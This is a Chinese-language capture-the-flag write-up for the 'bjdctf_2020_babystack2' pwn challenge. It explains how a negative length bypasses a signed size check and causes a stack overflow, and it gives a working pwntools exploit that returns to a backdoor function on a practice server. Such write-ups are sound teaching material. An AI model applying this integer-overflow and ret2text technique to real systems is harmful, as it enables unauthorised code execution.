


# 知识点

整数溢出


# 题目分析

1. 查看保护情况，64位程序，开启NX保护。

       Arch:     amd64-64-little
       RELRO:    Partial RELRO
       Stack:    No canary found
       NX:       NX enabled
       PIE:      No PIE (0x400000)

2. 拖入IDA分析，题目要求我们输入name的长度，nbytes是size_t，64位下为unsigend long类型。但是本题4个字节，为unsigned int。

   题目会对输入的长度校验，要求转为有符号数后小于等于10。我们可以给他一个负数，绕过检查。

   

3. 整数溢出绕过检查后，read会读取很大的字符串到buf中造成栈溢出漏洞。

   继续分析发现题目提供了后门函数，我们可以直接ret2text到后门函数。

   


# EXP

注意：可能由于libc版本问题，在本地整数溢出程序直接异常退出。

```python
from pwn import *

context(arch = 'amd64', os = 'linux', log_level = 'debug')

io = process('./bjdctf_2020_babystack2')
io = remote('node4.buuoj.cn', '29894')

backdoor = 0x400726

io.sendline('-1')

payload = 'A' * 0x10 + 'deadbeef' + p64(backdoor)
io.send(payload)

io.interactive()
```

